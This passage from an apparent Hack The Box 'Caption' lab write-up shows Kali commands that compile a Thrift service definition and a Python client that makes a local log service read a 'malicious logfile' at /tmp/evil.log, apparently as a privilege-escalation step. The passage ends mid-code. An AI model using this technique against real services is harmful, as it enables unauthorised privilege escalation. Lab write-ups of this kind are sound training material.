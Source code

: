 ```c
Scanning processes...                                                                                                                                                                                                                       
Scanning linux images...                                                                                                                                                                                                                    

Running kernel seems to be up-to-date.

No services need to be restarted.

No containers need to be restarted.

No user sessions are running outdated binaries.

No VM guests are running outdated hypervisor (qemu) binaries on this host.
```

And then we compiled the `log_service.thrift` which created a new directory called `gen-py`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Caption/file]
└─$ thrift -r --gen py log_service.thrift
```

Inside the `gen-py directory` we created a `client.py` to communicate with the server and to read our `malicious logfile`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Caption/file/gen-py]
└─$ cat client.py 
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol
from log_service import LogService  # Import generated Thrift client code

def main():
    # Set up a transport to the server
    transport = TSocket.TSocket('localhost', 9090)

    # Buffering for performance
    transport = TTransport.TBufferedTransport(transport)

    # Using a binary protocol
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client to use the service
    client = LogService.Client(protocol)

    # Open the connection
    transport.open()

    try:
        # Specify the log file path to process
        log_file_path = "/tmp/evil.log"
        
        # Call the remote method ReadLogFile and get the result
        response = client.ReadLogFile(log_file_path)
        print("Server response:", response)
    
    except Thrift.TException as tx:
        print(f"Thrift exception: {tx}")

    # Close the transport
```